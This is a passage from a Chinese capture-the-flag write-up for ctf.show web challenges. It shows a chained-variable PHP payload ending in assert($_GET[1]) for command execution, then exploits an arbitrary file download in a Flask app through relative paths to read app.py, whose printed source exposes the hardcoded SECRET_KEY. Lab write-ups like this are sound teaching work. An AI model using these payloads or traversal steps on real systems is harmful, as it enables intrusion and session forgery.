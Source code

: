 
输出：

```
_=a&a=b&b=c&c=d&d=e&e=f&f=g&g=h&h=i&i=j&j=k&k=l&l=m&m=n&n=o&o=p&p=q&q=r&r=s&s=t&t=u&u=v&v=w&w=x&x=y&y=z&z=A&A=B&B=C&C=D&D=E&E=F&F=G&G=H&H=I&I=assert($_GET[1]);
```

我们只需要使用get传参，命令执行即可



### 抽老婆            

打开页面发现一个下载的按钮，点击后可以下载图片

![image-20230306113940399](https://s2.loli.net/2023/03/06/tx3zROkN5Fgfb6l.png)

`url:`

```
http://3cef0567-fe4d-413d-911e-ebf363d7fda8.challenge.ctf.show/download?file=0df74e7fc6614180ee892683f13d5abf.jpg
```

这里好像存在任意文件下载漏洞，我们随便输入一个路径：

![image-20230306113847191](https://s2.loli.net/2023/03/06/nXkE91vTNVF63cY.png)

我们发现这个是 python的 flask框架，于是我们想要去读取 /app/app.py文件，

使用相对路径成功读取

![image-20230306114101898](https://s2.loli.net/2023/03/06/kWGmnPQgMocsF41.png)

```python
# !/usr/bin/env python
# -*-coding:utf-8 -*-

"""
# File       : app.py
# Time       ：2022/11/07 09:16
# Author     ：g4_simon
# version    ：python 3.9.7
# Description：抽老婆，哇偶~
"""

from flask import *
import os
import random
from flag import flag

#初始化全局变量
app = Flask(__name__)
app.config['SECRET_KEY'] = 'tanji_is_A_boy_Yooooooooooooooooooooo!'

@app.route('/', methods=['GET'])
def index():  
    return render_template('index.html')


@app.route('/getwifi', methods=['GET'])
def getwifi():
    session['isadmin']=False
    wifi=random.choice(os.listdir('static/img'))
    session['current_wifi']=wifi
    return render_template('getwifi.html',wifi=wifi)


```